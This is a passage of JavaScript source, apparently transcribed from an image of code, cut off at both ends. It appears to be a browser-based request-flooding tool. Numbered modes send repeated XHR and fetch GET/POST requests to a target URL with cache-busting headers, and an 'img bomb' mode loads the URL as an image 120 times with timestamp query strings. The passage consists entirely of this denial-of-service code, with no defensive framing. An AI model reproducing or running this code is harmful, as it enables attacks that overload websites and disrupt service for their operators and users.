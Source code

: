 			xhr2.setRequestHeader("Accept-Language", lang);
			xhr2.setRequestHeader("Accept", accept);
			xhr2.setRequestHeader("Content-Type", contype);
 			xhr2.send();
            xhr.open(method, URL, async);
			xhr.setRequestHeader("Content-Type", contype);
			xhr.send(POSTDATA);
    } else if (mode==5) {
      xhr2.open(method2, URL, async);
	  	xhr2.setRequestHeader("Pragma", "no-cache");
 			xhr2.setRequestHeader("Cache-Control", "no-store");
 			xhr2.setRequestHeader("If-Modified-Since", "Thu, 01 Jun 1970 00:00:00 GMT");
			xhr2.setRequestHeader("Accept-Language", lang);
			xhr2.setRequestHeader("Accept", accept);
			xhr2.setRequestHeader("Content-Type", contype);
 			xhr2.send();
    } else if (mode==6) {
        xhr.open(method, URL, async);
			xhr.setRequestHeader("Content-Type", contype);
			xhr.send(POSTDATA);
    } else if (mode==7) {
             //fetch GET
			var req = new Request(URL, { headers: {"Content-Type": contype, "Accept-Language": lang, "Cache-Control": "no-cache", "Accept": accept, "If-Modified-Since": ifmoded } });
			fetch(req);
			//fech POST
			var req2 = new Request(URL, { method: "POST", mode: "cors", cache: "no-cache", credentials: "same-origin", headers: { "Content-Type": "application/json"}, referrerPolicy: "no-referrer", body: JSON.stringify((POSTDATA))});
			fetch(req2);
    } else if (mode==8) {
            //fetch GET
			var req = new Request(URL, { headers: {"Content-Type": contype, "Accept-Language": lang, "Cache-Control": "no-cache", "Accept": accept, "If-Modified-Since": ifmoded } });
			fetch(req);
    } else if (mode==9) {
            //fech POST
			var req2 = new Request(URL, { method: "POST", mode: "cors", cache: "no-cache", credentials: "same-origin", headers: { "Content-Type": "application/json"}, referrerPolicy: "no-referrer", body: JSON.stringify((POSTDATA))});
			fetch(req2);
    } else if (mode==10) {
          //デバッグ
          Nowdate = Date.now();

          for (i=0; i<120; i++) {
            //img bomb
            UrlGenerator();
            imgurl = URL + `?${(new Date).getTime()}`
            var img = new Image();
            img.src = imgurl
            //デバッグ
            //console.log( i + "回目のimg")
            //sleep(randRange(300, 400));
          }
